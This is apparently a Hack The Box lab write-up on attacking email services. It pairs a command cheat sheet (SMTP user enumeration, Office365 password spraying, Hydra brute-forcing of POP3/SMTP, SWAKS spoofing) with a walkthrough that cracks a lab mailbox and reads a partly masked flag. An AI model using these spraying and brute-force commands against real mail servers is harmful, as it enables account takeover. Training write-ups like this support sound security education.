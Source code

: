 # Attacking Email Services

| Command                                                                                     | Description                                                                      |
| ------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------- |
| ```host -t MX microsoft.com```                                                                  | DNS lookup for mail servers for the specified domain.                            |
| ```dig mx example.com \| grep "MX" \| grep -v ";"```                                     | DNS lookup for mail servers for the specified domain.                            |
| ```host -t A mail1.example.com.```                                                        | DNS lookup of the IPv4 address for the specified subdomain.                      |
| ```telnet $TARGET_IP 25```                                                                    | Connect to the SMTP server.                                                      |
| ```smtp-user-enum -M RCPT -U userlist.txt -D example.com -t $TARGET_IP```               | SMTP user enumeration using the RCPT command against the specified host.         |
| ```python3 o365spray.py --validate --domain msplaintext.xyz```                                  | Verify the usage of Office365 for the specified domain.                          |
| ```python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz```                         | Enumerate existing users using Office365 on the specified domain.                |
| ```python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz``` | Password spraying against a list of users that use Office365 for the specified domain. |
| ```hydra -L users.txt -p 'Company01!' -f $TARGET_IP pop3```                                   | Brute-forcing the POP3 service.                                                  |
| ```swaks --from notifications@example.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server $TARGET_IP``` | Send email using SWAKS (Swiss Army Knife for SMTP).                               |


## Questions:
1. What is the available username for the domain `inlanefreight.htb` in the SMTP server?
2. Access the email account using the user credentials that you discovered and submit the flag in the email as your answer.

## Steps:

### 1. Edit the Hosts File
First, add the target IP and domain to the `/etc/hosts` file for easier access:
```
sudo nano /etc/hosts
```

Add the following line with target IP:

`10.129.215.105 inlanefreight.htb`

### 2. Download Users and Passwords Lists from resources
### 3. Enumerate SMTP Users

Use smtp-user-enum to find valid users in the SMTP server:
```
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t $TARGET_IP
```
This reveals the user:
` m*****@inlanefreight.htb `
### 4. Brute-force the Password
Use hydra to brute-force the password for the discovered user:

```
hydra -l m*****@inlanefreight.htb -P pswd.txt -f 10.129.215.105 smtp
```

The password is found:
`po*****r`

### 5. Access the Email Account
Use telnet to access the POP3 service and read emails:
```
telnet $TARGET_IP 110
```
Log in with the credentials:

```
user m*****@inlanefreight.htb
+OK Send your password
pass po*****r
+OK Mailbox locked and ready
```
### 6. List and Read the Email
List the emails in the mailbox:
```
list
+OK 1 messages (601 octets)
1 601
Read the email:
retr 1
Output:
Return-Path: m*****@inlanefreight.htb
Received: from [10.10.14.33] (Unknown [10.10.14.33])
by WINSRV02 with ESMTPA
; Wed, 20 Apr 2022 14:49:32 -0500
Message-ID: <85cb72668d8f5f8436d36f085e0167ee78cf0638.camel@inlanefreight.htb>
Subject: Password change
From: marlin <m*****@inlanefreight.htb>
To: administrator@inlanefreight.htb
Cc: m*****@inlanefreight.htb
Date: Wed, 20 Apr 2022 15:49:11 -0400
Content-Type: text/plain; charset="UTF-8"
User-Agent: Evolution 3.38.3-1
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

Hi admin,

How can I change my password to something more secure?

flag: HTB{w**k_p******d}
```



